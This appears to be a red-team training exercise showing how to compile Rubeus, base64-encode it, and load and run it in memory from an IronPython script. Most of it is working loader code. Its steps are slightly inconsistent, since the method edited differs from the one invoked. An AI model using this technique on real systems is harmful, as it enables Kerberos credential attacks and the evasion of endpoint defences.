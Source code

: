 # Exercise 7: Loading and Executing a .NET Assembly from Base64 in IronPython

## Pull, Modify, and Compile Rubeus
1. If not using the provided range, download [Rubeus](https://github.com/GhostPack/Rubeus.git)
2. Locate the Visual Studio shortcut on your desktop or find it from the Start menu and open it.
3. Open the Rubeus Solution: `Click on File > Open > Project/Solution`
4. Locate the Main Method in Rubeus/Program.cs which is name `public static void Main(string[] args)`.
5. Change the private keyword to public to make the method publicly accessible:
csharp
```
public static void Main(string[] args)
```
6. Navigate to the top menu and click `Build > Build Solution`.
7. Copy Rubeus.exe to `C:\Program Files\IronPython 3.4`

## Coverting to Base64
1. From `C:\Program Files\IronPython 3.4`, open a notepad named `file_to_base64.py`.
2. Write a Python function to convert a file into its base64 representation.

```python
import base64

def file_to_base64(file_path, output_file_path):
    with open(file_path, 'rb') as file:
        base64_encoded = base64.b64encode(file.read()).decode('utf-8')
        
    with open(output_file_path, 'w') as out_file:
        out_file.write(base64_encoded)

file_to_base64('Rubeus.exe', 'output_base64.txt')
```

3. Execute the function with the path to your .NET assembly:.

```powershell
.\ipy.exe .\file_to_base64.py
```

4. Copy the printed base64 string for the next task.

![Alt text](image.png)

5. The file is also located [here](./output_base64.txt).

## Creating the Function
Now we are going to create the IronPython function to load the assembly.

1. Open a new Notepad and name as `IronRubeus.py`
2. Import the required IronPython modules and .NET libraries.

```python
import clr
import System
import base64
import argparse
from System.Reflection import Assembly
```

3. Next, add the base64 encoded string.

```python
base64_str = "TVqQAAMAAAAEAAAA//8AALgAAA..."
```

4. Add a function to convert the base64 string to a byte array.

```python
def base64_to_bytes(base64_string):
    return System.Array[System.Byte](base64.b64decode(base64_string))
```

5. Add function to convert a Python list to a .NET string array.

```python

# Convert a Python list to a .NET string array
def to_clr_array(py_list):
    arr = System.Array.CreateInstance(System.String, len(py_list))
    for i, item in enumerate(py_list):
        arr[i] = item
    return arr
```

6. Define a function to load and execute the assembly.

```python
def load_and_execute_assembly(command):
    assembly_bytes = base64_to_bytes(base64_str)
    
    # Load the assembly
    assembly = Assembly.Load(assembly_bytes)
    
    # Get the type of the Rubeus.Program class
    rubeus_program_type = assembly.GetType("Rubeus.Program")

    # You don't need to create an instance of the class for a static method
    method = rubeus_program_type.GetMethod("MainString")

    # Convert your command to a .NET string array
    command_args = to_clr_array([command])

    # Invoke the MainString method
    result = method.Invoke(None, command_args)

    return result
```

7. Use the function to load and execute the assembly.

```python
def main():
    parser = argparse.ArgumentParser(description='Execute a command on a hardcoded base64 encoded assembly')
    parser.add_argument('command', type=str, help='Command to execute (like "help" or "triage")')

    args = parser.parse_args()
    
    result = load_and_execute_assembly(args.command)
    print(result)

if __name__ == "__main__":
    main()
```